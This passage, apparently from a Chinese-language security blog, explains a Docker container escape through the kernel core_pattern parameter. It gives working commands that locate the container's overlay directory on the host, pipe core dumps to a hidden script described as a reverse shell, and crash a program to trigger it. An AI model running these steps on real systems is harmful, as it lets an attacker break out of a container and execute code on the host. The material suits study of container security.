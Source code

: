 + 设置环境变量

  ```
  host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
  ```

  > 因为Linux转储机制对/proc/sys/kernel/core_pattern内程序的查找是在宿主机文件系统进行的。所以从/etc/mtab中提取upperdir，此路径指向容器在宿主机文件中的挂载点，容器内文件系统未提交变动的文件都会在此体现。（最后来解释）

+ 写入反弹shell到目标proc目录下

  ```shell
  echo -e "|$host_path/tmp/.t.py \rcore" > /host/proc/sys/kernel/core_pattern
  #如果这里写的不对，可以尝试找绝对路径来写
  cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
  #workdir=/var/lib/docker/overlay2/895c10fa35d2baddf5230d5051fd48f9246d19ef027403c6ab8093600fc0395b/work 0 0
  #所以绝对路径应该是/var/lib/docker/overlay2/895c10fa35d2baddf5230d5051fd48f9246d19ef027403c6ab8093600fc0395b/merged
  echo -e "|/var/lib/docker/overlay2/895c10fa35d2baddf5230d5051fd48f9246d19ef027403c6ab8093600fc0395b/merged/tmp/.t.py \rcore" > /host/proc/sys/kernel/core_pattern
  ```

+ 在容器里运行一个可以崩溃的程序

  ```c
  #include<stdio.h>
  int main(void)  {
     int *a  = NULL;
     *a = 1;
     return 0;
  }
  # 编译程序并执行
  gcc t.c -o t && ./t
  ```

  ![image-20240122210529691](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240122210529691.png)

集中解释一下问题

> 需要理解的是linux核心转储这个机制
>
> 1.Linux转储机制对/proc/sys/kernel/core_pattern内程序的查找是在宿主机文件系统进行的
>
> `/proc/sys/kernel/core_pattern`是一个内核参数，它决定了core dump文件的生成位置和命名方式。这个查找过程是在宿主机的文件系统上进行的，而不是在容器中的文件系统。
>
> 在这个案例中，我们将其换成了shell文件，并且在初始添加了管道符，这个shell文件将会在宿主机当中被当成程序执行
>
> 2.从/etc/mtab中提取upperdir，此路径指向容器在宿主机文件中的挂载点，容器内文件系统未提交变动的文件都会在此体现。
>
> `upperdir`是Docker覆盖文件系统（overlay filesystem）中的一个概念，它指容器层的文件系统，用于存放容器内的更改。`/etc/mtab`文件中记录了系统中所有已经挂载的文件系统，从中可以找到`upperdir`的挂载信息，也就找到了容器在宿主机中的数据存放位置。
>
> 其实也就是寻找当前容器的文件存储在宿主机的哪个位置
>
> 3.关于.t.py
>
> 为了更好的隐藏文件，大概是
